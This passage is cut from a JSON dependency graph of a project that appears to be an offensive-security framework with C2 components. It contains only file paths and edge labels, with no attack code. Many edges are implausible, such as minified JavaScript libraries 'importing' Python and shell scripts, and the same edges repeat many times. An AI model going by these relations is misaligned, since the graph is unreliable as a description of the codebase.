"cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-4.5.2.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-4.5.2.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-4.5.2.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-4.5.2.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-4.5.2.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-4.5.2.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-4.5.2.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "modules/notify.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "modules/notify.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/chart.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/force-graph-1.43.5.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/force-graph-1.43.5.min.js", "target": "modules/exp.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/force-graph-1.43.5.min.js", "target": "cli/style.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/force-graph-1.43.5.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/force-graph-1.43.5.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/force-graph-1.43.5.min.js", "target": "cli/style.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/force-graph-1.43.5.min.js", "target": "cli/style.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/html2pdf.bundle.min.js", "target": "lazygui/services/factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/html2pdf.bundle.min.js", "target": "lazygui/services/factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/html2pdf.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/html2pdf.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/html2pdf.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/html2pdf.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/html2pdf.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/html2pdf.bundle.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/html2pdf.bundle.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/html2pdf.bundle.min.js", "target": "lazygui/services/factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "lazyc2/state.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cli/style.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cli/style.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cli/style.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cli/style.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cli/style.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/particles.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/particles.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/particles.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/particles.js", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/particles.js", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/particles.js", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/particles.js", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/particles.js", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/particles.js", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/particles.js", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/particles.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/particles.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/popper-2.5.4.min.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/quill-2.0.3.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/quill-2.0.3.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/quill-2.0.3.js", "target": "core/prompt.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/quill-2.0.3.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/quill-2.0.3.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/quill-2.0.3.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/quill-2.0.3.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/quill-2.0.3.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/quill-2.0.3.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/showdown-2.1.0.min.js", "target": "cli/style.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/showdown-2.1.0.min.js", "target": "modules/search.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/showdown-2.1.0.min.js", "target": "modules/search.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/showdown-2.1.0.min.js", "target": "modules/search.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/showdown-2.1.0.min.js", "target": "modules/search.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/showdown-2.1.0.min.js", "target": "modules/search.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/showdown-2.1.0.min.js", "target": "modules/search.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/showdown-2.1.0.min.js", "target": "modules/search.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/showdown-2.1.0.min.js", "target": "modules/search.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/showdown-2.1.0.min.js", "target": "modules/search.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/socket.io-4.0.0.min.js", "target": "lazyc2/blueprints/auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/socket.io-4.3.2.min.js", "target": "lazyc2/blueprints/auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/tippy-6.js", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network-9.1.2.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network-9.1.2.min.js", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network-9.1.2.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network-9.1.2.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network-9.1.2.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network-9.1.2.min.js", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network-9.1.2.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network-9.1.2.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network-9.1.2.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network.min.js", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network.min.js", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network.min.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/vis-network.min.js", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/xterm.js", "target": "modules/colors.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/xterm.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/xterm.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/xterm.js", "target": "lazyown-docker/init.sh"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "static/js/xterm.js", "target": "skills/claude_md_orchestrator/parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "telegram_c2.py", "target": "core/parsers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "telegram_c2.py", "target": "lazyown.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "telegram_c2.py", "target": "modules/llm_adapter.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "telegram_hermes.py", "target": "core/parsers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "test/test_commands.py", "target": "test/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/conftest.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/conftest.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/conftest.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/conftest.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/conftest.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/conftest.py", "target": "modules/lazy_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/conftest.py", "target": "modules/loop_ai_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/conftest.py", "target": "modules/lazy_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/integration_autonomous_flow.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/integration_autonomous_flow.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/integration_autonomous_flow.py", "target": "modules/session_rag.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/integration_autonomous_flow.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_aci_planner.py", "target": "skills/aci_planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", 